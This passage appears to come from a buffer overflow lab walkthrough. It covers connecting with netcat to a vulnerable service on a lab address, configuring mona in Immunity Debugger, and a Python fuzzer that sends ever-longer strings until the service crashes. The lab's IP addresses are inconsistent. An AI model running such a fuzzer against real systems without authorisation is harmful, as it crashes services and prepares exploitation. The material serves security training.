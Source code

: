 On your Kali box, connect to port 1337 on 10.10.200.9 using netcat:

`nc 10.10.199.216 1337`

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

Mona Configuration

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window: 

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.199.216"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
 try:
 with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
 s.settimeout(timeout)
 s.connect((ip, port))
 s.recv(1024)
 print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
 s.send(bytes(string, "latin-1"))
 s.recv(1024)
 except:
 print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
 sys.exit(0)
 string += 100 * "A"
 time.sleep(1)
```

Run the fuzzer.py script using python: `python3 fuzzer.py`

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.
